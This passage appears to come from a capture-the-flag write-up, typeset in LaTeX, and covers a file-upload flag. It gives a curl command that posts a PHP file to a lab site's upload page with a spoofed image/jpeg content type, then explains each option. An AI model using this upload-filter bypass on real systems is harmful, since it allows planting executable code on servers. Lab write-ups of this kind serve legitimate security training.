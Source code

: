 When we continue to examine the page, we see that the `name` of the upload is `uploaded`. So the aim is to try breach the upload using a cURL.

It is easy to create a cURL script, the one I made is this:

```

ip="http://<ip-address>"

curl -o sinkosi.html -X POST \\

-F 'Upload=Upload' \\

-F 'uploaded=@file.php;type=image/jpeg' \\

"\${ip}/?page=upload"

```

- -X POST: Tells curl we are making a post request method
- -F 'Upload=Upload': tells curl we are making an upload to an object named upload.
- @: Force the content
-o sinkosi.html: Output the result to sinkosi.html

When the curl has run, open sinkosi.html, the flag will be posted there.


\subsection{Tools}

\begin{figure}[!htb]
    \centering
     \quad
     \\
    \caption[Flag 08 Method]{Process to Capture the File Upload Flag} %
    \label{fig:flag08 method}
\end{figure}

